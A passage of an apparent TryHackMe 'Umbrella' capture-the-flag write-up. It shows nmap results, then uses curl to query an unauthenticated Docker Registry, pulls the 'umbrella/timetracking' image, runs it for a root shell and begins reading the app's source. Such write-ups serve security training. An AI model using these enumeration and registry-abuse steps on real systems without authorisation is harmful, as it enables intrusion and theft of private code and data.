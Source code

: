 ```bash
8080/tcp  open     http        Node.js (Express middleware)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Login
32769/tcp filtered filenet-rpc
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.06 seconds
```

We see that the target runs SSH, MySQL, Docker Registry, and NodeJS services. It also has one filtered port. Since we don't have any credentials, let's skip SSH and MySQL for now. We can test the Docker Registry to see if it is protected by HTTP basic authentication.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Umbrella]
└─$ curl -k 10.10.143.85:5000/v2/_catalog
{"repositories":["umbrella/timetracking"]} 
```

## Exploitation

We see that the Docker Registry is not protected and can be accessed by anyone. We also see that it contains the image of a container. Let's pull this container to our attack host.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Umbrella/Misc File]
└─$ sudo docker  pull 10.10.143.85:5000/umbrella/timetracking
Using default tag: latest
latest: Pulling from umbrella/timetracking
3f4ca61aafcd: Pull complete
00fde01815c9: Pull complete
a3241ece5841: Pull complete
f897be510228: Pull complete
23e2f216e824: Pull complete
15b79dac86ef: Pull complete
7fbf137cf91f: Pull complete
e5e56a29478c: Pull complete
82f3f98b46d4: Pull complete
62c454461c50: Pull complete
c9124d8ccff2: Pull complete
Digest: sha256:ecac8ce90b50026feea9d5552ac2889f6e8b2201f35e0ac5c21caeafed6fb9af
Status: Downloaded newer image for 10.10.143.85:5000/umbrella/timetracking:latest
10.10.143.85:5000/umbrella/timetracking:latest

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Umbrella/Misc File]
└─$ sudo docker images
REPOSITORY                                TAG       IMAGE ID       CREATED         SIZE
10.10.143.85:5000/umbrella/timetracking   latest    7843f102a2fc   22 months ago   255MB
```

Once we pull the container we can run it to obtain a shell in it.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Umbrella/Misc File]
└─$ sudo docker run -it 10.10.143.85:5000/umbrella/timetracking  bash
root@5dfa2a52d55a:/usr/src/app# ls
app.js  node_modules  package-lock.json  package.json  public  views
root@5dfa2a52d55a:/usr/src/app# cat app.js14:23:27 [78/78]
const mysql = require('mysql');                   
const express = require('express');
const session = require('express-session');
const path = require('path');    
const crypto = require('crypto')
const cookieParser = require('cookie-parser');      
const fs = require('fs');

const connection = mysql.createConnection({         
```